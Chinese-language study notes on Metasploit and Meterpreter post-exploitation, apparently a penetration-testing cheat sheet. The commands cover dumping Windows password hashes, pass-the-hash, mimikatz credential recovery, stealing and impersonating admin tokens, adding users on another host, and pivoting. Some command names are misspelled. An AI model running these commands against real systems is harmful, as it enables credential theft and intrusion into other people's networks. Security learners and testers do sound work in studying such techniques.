 ### 挖掘用户名和密码

```bash
run post/windows/gather/hashdump#获取系统所有的用户名和密码哈希值，需要提权
```

### 传递哈希值

因破解哈希值难，传递就只需要哈希值就够了。

用 expoloit/windows/smb/psexec 模块实现哈希值传递

如果橙红入侵了某大型网络中的一台主机，在多数情况下，密码与其他主机通用。

###破解纯文本密码

```bash
load mimikatz
help #查看有效命令
msv#恢复哈希值密码
kerberos##类似msv，不同的是这可以看到使用哈希密码的原始密码
```

### 假冒令牌

假冒某个网络中的另一个用户进行各种操作。

```bash
ps#查看所有运行的程序及运行这些程序的用户，找到管理员运行的程序
steal_token PID#盗取管理员用户的令牌，此时已经成功了
```

incognito ：列出系统上可利用的令牌

```bash
use incognito
list_tokens -u
impersonater_token BENET \\domainadmin#BENET \domainadmin是上条命令显示的令牌之一，要输入两个\\
add_user abc password -h 192.168.1.104 #新建用户
```

只有 system 权限的用户可以查看所有令牌。

### 恢复文件

```bash
background #后台运行meterprete会话
use post/windows/gather/forensics/recovery_files
show options
set ...
run
```

### 通过跳板攻击其他机器

如果攻击者个跳板机在同一局域网中，可以保护攻击者。

### 使用 meterpreter 脚本
